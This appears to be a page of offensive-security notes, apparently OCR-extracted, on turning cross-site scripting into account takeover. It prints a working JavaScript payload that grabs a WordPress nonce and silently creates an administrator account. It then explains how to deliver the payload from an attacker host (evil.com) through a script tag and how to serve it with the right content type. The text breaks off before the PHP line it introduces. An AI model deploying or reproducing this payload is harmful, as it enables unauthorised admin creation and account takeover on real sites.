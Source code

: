 



ACCOUNT TAKEOVERS:
----------------------
=======================

Now that we can bypass SOP and CSRF protections, it is quite trivial to build a PoC that will take control of a user’s account either by updating their password directly, or updating their email address (which can then be used to reset the password through the forgot password functionality).

I wrote a whole blog about escalating XSS using these methods
link: https://hakluke.medium.com/upgrade-xss-from-medium-to-critical-cb96597b6cc4

, but to summarise, we use the methods above to change the user’s profile in a way that would allow an account takeover. For example, we could:

Change the user’s password
Change the user’s email address or phone number to our own, and then use the forgot password functionality to update their password
Change the user’s security questions
I also included a repository full of payloads for popular platforms such as WordPress, Drupal and MyBB.

link: https://github.com/hakluke/weaponised-XSS-payloads

 As an example, here’s a payload that will add a new admin user on a WordPress instance.

var wp_root = "http://example.com" // don't add a trailing slash
var req = new XMLHttpRequest();
var url = wp_root + "/wp-admin/user-new.php";
var regex = /ser" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=hacker&email=hacker@example.com&pass1=AttackerP455&pass2=AttackerP455&role=administrator";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);


How To do:::
=========


The simplest way to use these payloads is to host them somewhere and load them into the src attribute of a script tag for your XSS payload like this:

<script src="http://evil.com/wordpress_create_admin_user.js"></script>
Alternatively, depending on the context and length of the payload, it can sometimes be minified, encoded and then just included directly into the request.

In order to host the JavaScript file, you may need to set the Content-Type to application/javascript. To achieve this with PHP, you can simply prepend this line to the top of any of the payloads, save it as a .php file and host it on your PHP-enabled webserver:

